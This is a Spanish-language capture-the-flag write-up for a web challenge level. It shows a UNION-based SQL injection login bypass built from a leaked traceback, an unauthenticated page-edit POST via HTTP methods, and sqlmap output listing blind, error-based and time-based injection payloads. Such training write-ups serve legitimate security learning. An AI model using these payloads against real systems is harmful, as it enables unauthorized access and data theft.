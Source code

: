 # Nivel 3

## WriteUp: Flag 1

Ahora mejorada la seguridad del sitio piden login para editar.

Para atacar le tire una lista enorme a usuario y pass. Me lanza esto:

```text
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 233, in execute
    query = query.encode(db.encoding)
UnicodeEncodeError: 'latin-1' codec can't encode character u'\u2026' in position 298: ordinal not in range(256)
```

Entonces enumeremos ahi tenemos una query y ambos motores mysql y mariadb. Desde burp vemos que usa parametros como username and password para el login simple. 

![](../../.gitbook/assets/imagen%20%28725%29.png)

Estudiando el error que lanza 

```text
SELECT password FROM admins WHERE username=\'%s\'' ....
```

Esto puede convertirse en un ataque de union donde elegimos que colocar del lado del usuario de cerrar las etiquetas

```text
SELECT password FROM admins WHERE username='' UNION SELECT "AAA" AS password WHERE '1' = '1'
```

En el burp lanzando el siguiente POST:

`username='UNION SELECT '123' AS password FROM admins WHERE '1' = '1&password=123`

Con eso logramos acceder a la 1er flag

## Flag 2: metodos http

_\(This flag was absolute bs\)_

Recomendado este motor online para peticiones http [https://httpie.io/run](https://httpie.io/run) 

Viendo que podemos utilizar http OPTIONS estando logeados las paginas de edicion permiten el post directamente, permitiendo que un atacante cree una pagina sin estar logeado

Haciendo OPTIONS http://35.196.135.216:5001/5022561f51/page/edit/3

```text
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 16 Aug 2021 18:16:50 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Allow: HEAD, GET, POST, OPTIONS
```

Desde nuestro cliente externo hacemos el POST

![](../../.gitbook/assets/imagen%20%28929%29.png)

## Extra: pruebas con SQLMAP

```text
sqlmap -u http://35.190.155.168/5a75132eac/login --data "username=&password=" --dbms mysql
```

![](../../.gitbook/assets/imagen%20%28726%29.png)

```text
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=' OR NOT 3326=3326#&password=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=' AND (SELECT 3419 FROM(SELECT COUNT(*),CONCAT(0x7162767171,(SELECT (ELT(3419=3419,1))),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- bXqA&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 4422 FROM (SELECT(SLEEP(5)))ujEb)-- KIuK&password=
---
[11:58:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[11:58:30] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/35.190.155.168'

```



